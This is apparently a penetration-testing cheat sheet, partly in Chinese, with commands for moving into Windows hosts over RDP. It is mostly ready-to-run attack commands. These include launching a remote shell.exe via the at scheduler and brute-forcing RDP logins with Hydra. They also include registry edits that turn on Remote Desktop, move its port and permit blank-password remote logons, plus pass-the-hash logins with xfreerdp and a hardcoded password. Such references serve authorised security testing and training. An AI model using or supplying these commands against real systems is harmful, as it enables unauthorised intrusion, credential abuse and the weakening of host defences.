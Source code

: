 ```bash
net user \\ip
at \\ip 15:27:00 c:\shell.exe
```

## RDP
**Remote Desktop Protocol**
+ 简单有效
+ if restricted admin is not enabled, target is windows 2012 R2 or windows 8.1, possible to pass the hash with xfreedp

```
#- rdp爆破
hydra -t 1 -V -f -L user.lit -P pwd.list rdp://10.11.1.20

#- rdp 登录域用户
rdesktop -g 90% -d svcorp.com -u [username] -p [password] [ip]
xfreerdp /u:user /d:CORP /p:password /v:192.168.1.2
## domain\user
xfreerdp /u:'corp\administrator' /v:$tip /p:'tqjJpEX9Qv8ybKI3yHcc=L!5e(!wW;$T'

# 打开远程桌面
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f 

# 开启RDP远程桌面服务
net start TermService

# 关闭远程桌面
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f 

# 查看远程桌面端口（十六进制）
reg query "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber 

# 修改远程桌面端口，需要在services.msc中重启Remote Desktop Services服务
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber /t REG_DWORD /d 38389 /f
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\Tds\tcp" /v PortNumber /t REG_DWORD /d 38389 /f

# 禁用不允许空密码远程访问
## /v：要添加的注册表键的名称
## /t：要添加的注册表类型
## /f：覆盖不提醒
## /d：添加的值
reg add "HKLM\SYSTEM\ControlSet001\Control\Lsa" /v LimitBlankPasswordUse /t REG_DWORD /d 0 /f

# pass the hash
xfreerdp /u:user /d:CORP /pth:8846f7eaee8fb117ad06bdd830b7586c /v:192.168.1.2


```
